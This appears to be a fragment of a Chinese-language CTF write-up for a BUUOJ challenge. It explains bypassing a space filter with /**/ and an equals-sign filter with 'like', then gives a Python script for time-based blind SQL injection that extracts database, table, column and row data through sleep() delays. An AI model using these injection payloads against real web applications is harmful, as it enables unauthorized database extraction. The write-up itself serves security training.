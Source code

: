 ![image-20231211135052860](images/62.png)

过滤了空格，可以用/**/绕过，页面没有回显尝试盲注，没有等于号了，用like替代

```
import requests

url = "http://029583ba-6c25-473f-97dc-f802e0aad9af.node4.buuoj.cn:81/?id="

result = ""
i = 0
while (True):
    i = i + 1
    head = 32
    tail = 127

    while (head < tail):
        mid = (head + tail) // 2

        # payload = "1/**/and/**/if((ascii(substr(database(),%d,1)))>%d,sleep(3),1)" % (i, mid)
        # payload = "1/**/and/**/if((ascii(substr((select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema/**/like/**/'ctf'),%d,1)))>%d,sleep(3),1)" % (i, mid)
        # payload = "1/**/and/**/if((ascii(substr((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name/**/like/**/'items'),%d,1)))>%d,sleep(3),1)" % (i, mid)
        payload = "1/**/and/**/if((ascii(substr((select/**/group_concat(name)/**/from/**/items),%d,1)))>%d,sleep(3),1)" % (i, mid)
        # print(payload)
        try:
            r = requests.get(url+payload,timeout=1.5)
            # print(r.text)
            tail = mid
        except:
            head = mid + 1

    last = result

    if head != 32:
        result += chr(head)
    else:
        break
```